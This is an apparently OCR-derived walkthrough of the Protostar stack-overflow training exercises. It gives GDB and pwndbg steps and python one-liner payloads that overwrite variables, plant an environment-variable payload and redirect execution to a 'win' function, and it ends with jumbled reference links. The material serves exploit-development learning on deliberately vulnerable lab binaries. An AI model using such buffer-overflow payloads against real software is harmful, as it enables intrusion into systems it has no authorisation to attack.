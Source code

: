8. > next 13
          ^this number may be different
          You want to step over the gets function so you can give input

9. On separate terminal:
    `python -c "print 'A'*77"`
                            ^if this doesn't work at end,
                             increase this number
    To see the hex values of this (if all 'a's it should be `0x61`:
    `echo <string> | hexdump -v`

10. Copy the output of step 5 and paste into GDB and press ENTER

11. Next assembly instruction should be:
    	`mov   eax, dword ptr [rbp - 4]`
                               ^look at this
                               this is the location of the variabe
                               variable `modified`

12. pwndbg> hexdump $rbp-4 1
    gef> hexdump $rbp-4 1

   should get something like:
   `+0000 0x7fffffffde6c  61 61 61 61  │aaaaa`
                          ^you have changed the value of modified t0 `aaaa`

13. If you look at the source, `modified = 0;`. You have now changed it to
    a (0x61 in hex)

14. > continue
	```
    Continuing.
    You have changed the ‘modified’ variable
    ```




# stack1: Overwrite Variable to Specific Value
------------------------------------------------------------------------
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
                                  ^may have to play with this number


# stack2: Set Enviromental Variable 
------------------------------------------------------------------------
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
                                 ^may have to play with this number


# stack3: Jump to another function 
------------------------------------------------------------------------

[Simple]: Step-by-Step

1. `objdump -d stack3 | grep "win"`
	Output looks something like this:
	  0000000000400577 <win>:


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Detailed]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step